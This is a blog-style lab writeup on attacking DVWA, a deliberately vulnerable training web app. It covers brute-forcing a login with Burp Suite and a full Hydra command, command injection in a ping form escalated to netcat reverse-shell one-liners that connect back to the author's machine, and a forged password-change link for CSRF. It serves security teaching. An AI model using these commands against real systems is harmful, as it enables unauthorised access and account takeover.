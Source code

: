 ```yaml
---
title: DVWA
date: 2021-09-09
categories:
  - Writeup
tags:
  - DVWA
  - Writeup
excerpt_separator: <!--more-->
---
```

<p><img src="/assets/images/dvwa.png" alt="" /></p>

<p>Damn Vulnerable Web App (DVWA) is a PHP/MySQL web application that is damn vulnerable. Its main goals are to be an aid for security professionals to test their skills and tools in a legal environment, help web developers better understand the processes of securing web applications and aid teachers/students to teach/learn web application security in a class room environment.</p>
<!--more-->
<p>Let's test our OWASP TOP 10 skills with DVWA</p>

<h1>Bruteforcing</h1>
<p>Low</p>

<p>In the Bruteforcing section we can see a normal login page<img src="/assets/images/dvwa/bruteforcing/1.png" alt="" />we can try entering any cred and see how it will react, let's try admin:admin<img src="/assets/images/dvwa/bruteforcing/1-2.png" alt="" />it gives out an error message "Username and/or password incorrect."</p>

<p>Now let's capture the request with a tool called <a href="https://portswigger.net/burp/communitydownload">BurpSuite</a>- BurpSuite is a proxy-based tool used to evaluate the security of web-based applications and do hands-on testing. </p>

<p>Before we continue using BurpSuite we need to setup our web browser's proxy so that BurpSuite can intercept all the request that we want. For this we will use an add-on called <a href="https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/">FoxyProxy</a> to make changing our proxy settings easier. Now add a proxy settings with in FoxyProxy as follows <img src="/assets/images/dvwa/bruteforcing/1-3.png" alt="" /> - Select the proxy that you created and now we're ready to intercept our first request!</p>

<p>Login again using any creds - this time Burp will intercept the request and you should see the request in the Proxy tab<img src="/assets/images/dvwa/bruteforcing/2.png" alt="" /> - here we can see that we sent a GET request for /vulnerabilities/brute/?username=admi&password=admin&Login=Login to our DVWA host which is 192.168.56.103 on my case.</p>

<p>We can Bruteforce this using the Intruder function of Burp - right click on the request and send the request to Intruder<img src="/assets/images/dvwa/bruteforcing/3.png" alt="" /><br>Now that we're in the intruder click the clear button to remove the highlighted payloads - these payloads are the ones that we can bruteforce for this example we will use the Attack Type called Sniper. Highlight the password and click add$.<br><img src="/assets/images/dvwa/bruteforcing/4.png" alt="" />You will notice that the password part will get highlighted this means that it is selected for bruteforcing - now click the payloads tab<br><img src="/assets/images/dvwa/bruteforcing/5.png" alt="" />Here we can load out our wordlists that Burp will use to bruteforce our selected payload, in our case the password section.</p>

<p>I will use the worldlist probable-v2-top1575 from the <a href="https://github.com/danielmiessler/SecLists"> Seclists</a> collection. After loading the wordlist we can now proceed to bruteforcing - Click Attack. Sort the results according to length and from here you will see one entry with different value which is 5007 for password.<br><img src="/assets/images/dvwa/bruteforcing/6.png" alt="" /></p>

<p>if we try to login using the result we will get the following<img src="/assets/images/dvwa/bruteforcing/7.png" alt="" /> If we try to inspect element we can see the location of the image<img src="/assets/images/dvwa/bruteforcing/8.png" alt="" /><br>And after browsing to the directory we will see the other probable users.<img src="/assets/images/dvwa/bruteforcing/9.png" alt="" /></p>

<p>Now we can do the same thing for the other probable users. We can do this one at a time by editing the username field on our request (changing the admin to another user) and then proceeding like before or we can use the Cluster Bomb attack type. To do this clear the payloads, then add the username and password field again.<img src="/assets/images/dvwa/bruteforcing/9-1.png" alt="" /><br>Now this time in the payloads tab, we can set 2 payloads the first one for the usernames and the second for the password. I have created a new file that contains all the possible usernames.<img src="/assets/images/dvwa/bruteforcing/10.png" alt="" /><br>Now I'll set this as my first payload<img src="/assets/images/dvwa/bruteforcing/15.png" alt="" /><br>And for the second I'll still use the worldlist probable-v2-top1575</p>

<p>After some time we got the result of the attack.<img src="/assets/images/dvwa/bruteforcing/16.png" alt="" /><br></p>

<p>We can also use Hydra to bruteforce the web login but we won't deep dive to it for now but to do this we can use the following command</p>

<p style="font-size:20px;font-style:italic">hydra 192.168.56.103 -L "usernames.dvwa" -P "SecLists/Passwords/xato-net-10-million-passwords.txt" http-get-form  "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect:H=Cookie: PHPSESSID=du7ts72sjgglbh74h9gdps1216; security=low"</p>

<ul>
  <li>-L is for a text file that contains the usernames if you want to use a specific username you can use lowercase instead -l</li>
  <li>-P is the same for username but for passwords here we used the wordlists, you can also use lowercase to use specific password -p</li>
  <li>http-get-form is used this time cause the remember from the request that we intercepted we are sending GET request, we also used http as DVWA is using http</li>
  <li>:F= is required for http-get-form this tells hydra to check for this failure message so hydra can differentiate the real credentials, we can also use the opposite which is :S meaning we have to provide a successful message instead</li>
  <li>:H=Cookie: this is needed as we are already logged in as admin within DVWA(initial login page)</li>
</ul>

<h1>Command Execution</h1>
<p>Low</p>

<p>For this section we will learn about Command Execution, Command injection is an attack in which the goal is execution of arbitrary commands on the host operating system via a vulnerable application. Command injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to a system shell.

<p>In this section we can see a single input box that's asking for an IP Address<img src="/assets/images/dvwa/CE/1.png" alt="" /><br>Looks like it is a ping tool. Let's try supplying it with its own IP Address<img src="/assets/images/dvwa/CE/2.png" alt="" /><br>It returns a normal ping output. Let's try my Host IP <img src="/assets/images/dvwa/CE/3.png" alt="" /><br>Let's see what's the output for an unknown IP Address<img src="/assets/images/dvwa/CE/1.png" alt="" /><br>It didn't return any output. I've tried giving it a normal bash command like ls but the same no output.</p>

<p>From this we can conclude that the IP address that we supply is getting treated like a variable and being added to the ping command so it results like ping $IP and then -c4 cause it returns 4 replies. So what happens if we try chaining a command? In Linux we can chain a command using ; So for example ping 127.0.0.1; ls will ping 127.0.0.1 and then execute the list command.<br><img src="/assets/images/dvwa/CE/4.png" alt="" /><br>And the output is <img src="/assets/images/dvwa/CE/5.png" alt="" /><br>As we can see after the ping it showed as the contents of the directory which is help, index.php, source.</p>

<p>So from here we know that this is vulnerable to Command Injection, using this vulnerability we can try running a reverse shell one liner command and see if we can get a reverse shell. For this we can check <a href="https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet"> PentestMonkey Cheatsheet</a> for a list of reverse shell commands. First we will set up a netcat listener on our machine using the command</p>
<p style="font-size:20px;font-style:italic">nc -lvnp 1234</p> 
<ul>
  <li>-l means listen mode, for inbound connections</li>
  <li>-p for port number</li>
  <li>-v for verbose</li>
  <li>-n for numeric-only IP address, no DNS</li>
</ul>

<p>Now that our listener is ready<img src="/assets/images/dvwa/CE/4.png" alt="" /><br>We can now try chaining the reverse shell from PentestMonkey to the vulnerable ping tool. I will try using the netcat reverse shell, first I need to confirm if nc is present in this box, to do that I'll run a <i>which nc</i> command</p><img src="/assets/images/dvwa/CE/8.png" alt="" /><br>This confirms that we can use the netcat reverse shell. Now we can input the following <i>127.0.0.1; nc -e /bin/sh 192.168.56.105 1234</i> -Note that 192.168.56.105 is my Host IP. Running this command didn't give us a reverse shell, instead it just ran the ping command. Let's try the other nc reverse shell from PentestMonkey. <i>127.0.0.1; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.105 1234 >/tmp/f</i><br>Using this command gave us a reverse shell, we can confirm from the listener that we set up.<img src="/assets/images/dvwa/CE/9.png" alt="" /><br>And from here we can see that we have access to that machine.<br><img src="/assets/images/dvwa/CE/10.png" alt="" /><br></p>

<h1>CSRF</h1>
<p>Low</p>

<p>Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. It allows an attacker to partly circumvent the same origin policy, which is designed to prevent different websites from interfering with each other.</p>

<p>In this section we'll see a page to change admin's password.<img src="/assets/images/dvwa/CSRF/1.png" alt="" /><br>I'll try changing it to test1 and then logout and log in again to confirm.<img src="/assets/images/dvwa/CSRF/2.png" alt="" /><br><img src="/assets/images/dvwa/CSRF/3.png" alt="" /><br>Next we can try purposely send unmatched password.<img src="/assets/images/dvwa/CSRF/4.png" alt="" /><br>Which gives us an error message saying "Passwords did not match." and also if you will notice the url, the unmatched passwords that I sent is exposed which we can probably exploit. <i>192.168.56.103/vulnerabilities/csrf/?password_new=test&password_conf=a&Change=Change#</i></p>

<p>Now we can try changing the URL and we will pretend to be the victim, that we're going to send the malicious link to. Let's change the link to <i>192.168.56.103/vulnerabilities/csrf/?password_new=csrf&password_conf=csrf&Change=Change#</i> this will change the victims password to <i>csrf</i> So let's open a new tab paste and then enter the malicious link <img src="/assets/images/dvwa/CSRF/5.png" alt="" /><br>This will land us back to the CSRF section and it will confirm that the password has been changed.<img src="/assets/images/dvwa/CSRF/6.png" alt="" /><br></p>

<p>Now if we try to login again to our admin user and enter csrf it will let us log in.<img src="/assets/images/dvwa/CSRF/7.png" alt="" /><br><img src="/assets/images/dvwa/CSRF/8.png" alt="" /><br></p>

<h1>File Inclusion</h1>
<p>Low</p>

<p>There's two types of File Inclusion attack RFI and LFI. Remote File Inclusion (RFI) is a type of vulnerability most often found on PHP running websites. It allows an attacker to include a remotely hosted file, usually through a script on the web server. The vulnerability occurs due to the use of user-supplied input without proper validation. This can lead to something as minimal as outputting the contents of the file, but depending on the severity can lead to arbitrary code execution.<br>Local File Inclusion (LFI) is very much like RFI; the only difference is that in LFI the attacker has to upload the malicious script to the target server to be executed locally.</p>